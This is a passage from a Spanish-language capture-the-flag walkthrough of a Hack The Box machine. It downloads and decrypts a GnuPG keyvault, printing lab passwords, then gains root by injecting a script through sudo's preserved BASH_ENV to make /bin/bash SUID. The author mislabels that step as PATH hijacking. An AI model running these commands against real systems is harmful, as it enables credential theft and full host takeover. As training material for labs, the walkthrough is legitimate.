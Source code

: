 y luego procedemos a la descarga de los archivos desde nuestra maquina local, haciendo un wget

`wget http://10.10.11.67:8500/keyvault.gpg`
`wget http://10.10.11.67:8500/.gnupg`

el archivo .gnupg es crucial para poder descencriptar los datos dentro del keyvault.gpg

por lo que procedemos a realizar lo siguiente dentro de nuestra maquina local
rm -rf ~/.gnupg
mv .gnupg ~/.gnupg
chmod 700 ~/.gnupg
gpg --decrypt keyvault.gpg

una vez realizado eso aparecerá como en la imagen de abajo, pero tambien se puede hacer de manera rapida y efectiva simplemente haciendo esto dentro de la maquina 

`cp -R .gnupg /tmp && GNUPGHOME=/tmp/.gnupg gpg --decrypt backup/keyvault.gpg`

![[remote-blog/images/Pasted image 20250505233831.png]]
      "hish_ <hish@environment.htb>"
PAYPAL.COM -> Ihaves0meMon$yhere123
ENVIRONMENT.HTB -> marineSPm@ster!!
FACEBOOK.COM -> summerSunnyB3ACH!!

luego dentro de esto necesitamos realizar un escalado de privielgios, si hacemos un 
`sudo -l`

en este caso obtenemos un binario disfrazado de SCRIPT
``` bash
hish@environment:~$ sudo -l
[sudo] password for hish: 
Matching Defaults entries for hish on environment:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, env_keep+="ENV BASH_ENV", use_pty

User hish may run the following commands on environment:
    (ALL) /usr/bin/systeminfo

```

por lo cual procedemos a hacer un PATH HIJACKING

```bash
hish@environment:~$ echo -e '#!/bin/bash\nchmod +s /bin/bash' > root.sh
hish@environment:~$ ls
backup  root.sh  user.txt
hish@environment:~$ sudo BASH_ENV=root.sh /usr/bin/systeminfo
[sudo] password for hish: 
```

luego de eso ponemos la contraseña y ejecutamos el comando /bin/bash -p

``` bash
hish@environment:~$ /bin/bash -p
bash-5.2# ls
backup  root.sh  user.txt
bash-5.2# cd ..
bash-5.2# sl
bash: sl: command not found
bash-5.2# ls
hish
bash-5.2# ls
hish
bash-5.2# ls
hish
bash-5.2# cd ..
bash-5.2# ls
bin  boot  dev  etc  home  initrd.img  initrd.img.old  lib  lib64  lost+found  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var  vmlinuz  vmlinuz.old
```
